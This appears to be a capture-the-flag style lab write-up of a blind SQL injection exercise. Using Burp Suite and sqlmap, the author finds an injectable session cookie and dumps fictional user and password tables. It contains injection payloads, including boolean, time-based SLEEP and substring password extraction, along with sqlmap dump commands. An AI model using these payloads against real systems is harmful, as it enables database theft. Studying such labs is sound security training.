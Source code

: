 # SQL Injection - Blind

**Credentials:**
| Username | Password |
|----------|----------|
| jeremy   | jeremy   |

- Upon successfully logging in using the provided credentials, we discovered a welcome message within the system.
  
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/387608a4-d4ed-4ff0-91c6-f662b287bfca)

- After intercepting the request using Burp Suite, I successfully sent it to the Repeater tool for further analysis and manipulation.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/09433af8-6b97-447c-8494-e941f1650c66)

- During the process of sending the request through the Repeater tool, Observe the Content-Length header. The Content-Length indicates the size of the request body in bytes. Understanding the Content-Length can indeed be helpful when crafting or modifying subsequent requests, especially when dealing with different sets of credentials or payloads.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/dc6cbd06-8c60-4687-826a-fb2a2b558cc7)

- By repeatedly passing incorrect credentials, observe the changes in the Content-Length.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/880f45f5-09d2-48b3-8560-f6631ff1e98c)

- Copy the entire request, including the request method, headers, and body. Open a text editor Create a new file in the text editor and paste the copied request into it. Save the file with an appropriate name, such as "request.txt".

- By executing the command `sqlmap -r request.txt`, I initiated an automated SQL injection testing process using the provided request.

```bash
└─$ sqlmap -r request.txt                                                                                 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:30:10 /2023-07-15/

[06:30:10] [INFO] parsing HTTP request from 'request.txt'
[06:30:10] [INFO] testing connection to the target URL
[06:30:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:30:10] [INFO] testing if the target URL content is stable
[06:30:10] [INFO] target URL content is stable
[06:30:10] [INFO] testing if POST parameter 'username' is dynamic
[06:30:10] [WARNING] POST parameter 'username' does not appear to be dynamic
[06:30:10] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[06:30:10] [INFO] testing for SQL injection on POST parameter 'username'
[06:30:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:30:11] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:30:11] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:30:11] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:30:11] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:30:11] [INFO] testing 'Generic inline queries'
[06:30:11] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[06:30:11] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[06:30:11] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[06:30:11] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[06:30:11] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
[06:30:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[06:30:13] [WARNING] POST parameter 'username' does not seem to be injectable
[06:30:13] [INFO] testing if POST parameter 'password' is dynamic
[06:30:13] [WARNING] POST parameter 'password' does not appear to be dynamic
[06:30:13] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[06:30:13] [INFO] testing for SQL injection on POST parameter 'password'
[06:30:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:30:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:30:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:30:13] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:30:13] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:30:13] [INFO] testing 'Generic inline queries'
[06:30:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[06:30:13] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[06:30:13] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[06:30:13] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[06:30:13] [INFO] testing 'Oracle AND time-based blind'
[06:30:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[06:30:14] [WARNING] POST parameter 'password' does not seem to be injectable
[06:30:14] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 06:30:14 /2023-07-15/
```

- No SQL injection found. Upon further investigation in Burp Suite, we discovered a token being sent with the POST request.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/5a1b6356-23bc-47c2-b671-e92d3869ed18)

- After sending the request to the repeater in Burp Suite, I carefully observed and noted the Content-Length value in the response.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/3ba0ab10-58ee-46fc-b618-28572809a477)

- Upon manipulating the session cookie by adding `' and 1=1#`, and observing that the response remains the same, it strongly suggests the presence of a SQL injection vulnerability within the application.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/aff2d1d2-370e-474d-84c4-3db444d190a5)

- By crafting the payload `' and ((select version()), 1, 5) = '8.0.3'#` and receiving a positive response, it strongly indicates that the underlying SQL database is running version 8.0.3

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/d64c36c5-ce3c-4201-89d7-d5316607920b)

- let's grab passwords from the DB by sending payload `' and substring(select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#` We get an error response, to make the injection fast send the request to the intruder and send the characters for verification.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/ee2ac5b0-bf21-46ea-857f-4867c7825bc5)

- By crafting a list of character payloads and sending them as requests, we received responses back from the target system.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/e6b6c998-4c1c-4a1f-84de-9ea2a1e716a2)

- use SQLMap with the captured request and exclude the injection code, and save the request to a file named "request2.txt"

```bash
└─$ sqlmap -r request2.txt -level=2 --dump
        ___
       __H__                                                                                                                                                                                                      
 ___ ___[(]_____ ___ ___  {1.7.6#stable}                                                                                                                                                                          
|_ -| . [']     | .'| . |                                                                                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:00:35 /2023-07-15/

[10:00:35] [INFO] parsing HTTP request from 'request2.txt'
[10:00:35] [INFO] resuming back-end DBMS 'mysql' 
[10:00:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9759=9759 AND 'RaIN'='RaIN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 4011 FROM (SELECT(SLEEP(5)))cqmB) AND 'cWbz'='cWbz
---
----------------------------------snip---------------------------------
Database: peh-labs
Table: idor0x01
[20 entries]
+------+--------+--------------------------------+----------+
| id   | type   | address                        | username |
+------+--------+--------------------------------+----------+
| 1000 | user   | 10, Rainbow Road, ALU 5QW      | jessamy  |
| 1001 | user   | 22, Wonderland Ave, LDN 4BD    | alice    |
| 1002 | user   | 33, Builder St, BLD 3KT        | bob      |
| 1003 | user   | 44, Chocolate Factory, CCF 2JD | charlie  |
| 1004 | user   | 55, Lister Lane, RDD 1HE       | dave     |
| 1005 | user   | 66, Hacker Road, HRK 5GT       | erin     |
| 1006 | user   | 77, Weasley Way, HGP 4RD       | fred     |
| 1007 | user   | 88, Weasley Way, HGP 4RD       | george   |
| 1008 | admin  | 99, Potter Drive, HGP 3KT      | harry    |
| 1009 | user   | 11, Lightwood Road, SHW 2EC    | isabelle |
| 1010 | admin  | 121, Sparrow Street, PRT 4BD   | jack     |
| 1011 | user   | 131, Duchess Drive, LDN 3AW    | kate     |
| 1012 | admin  | 141, Diamond Street, LDN 2RT   | lucy     |
| 1013 | user   | 151, Twain Road, USA 1MT       | mark     |
| 1014 | admin  | 161, Drew Drive, USA 2ND       | nancy    |
| 1015 | user   | 171, Twist Street, LDN 3TW     | oliver   |
| 1016 | user   | 181, Parker Place, USA 4PP     | peter    |
| 1017 | user   | 191, Quincy Quay, QQY 5QY      | quincy   |
| 1018 | user   | 202, Green Avenue, USA 6RG     | rachel   |
| 1019 | user   | 212, Rogers Road, USA 7SR      | steve    |
+------+--------+--------------------------------+----------+

Database: peh-labs
Table: auth0x02
[2 entries]
+---------+----------+----------------------------------+
| mfa     | username | password                         |
+---------+----------+----------------------------------+
| <blank> | jessamy  | pasta                            |
| <blank> | jeremy   | 66c53f8b7a7cab26545e81375726e189 |
+---------+----------+----------------------------------+
```
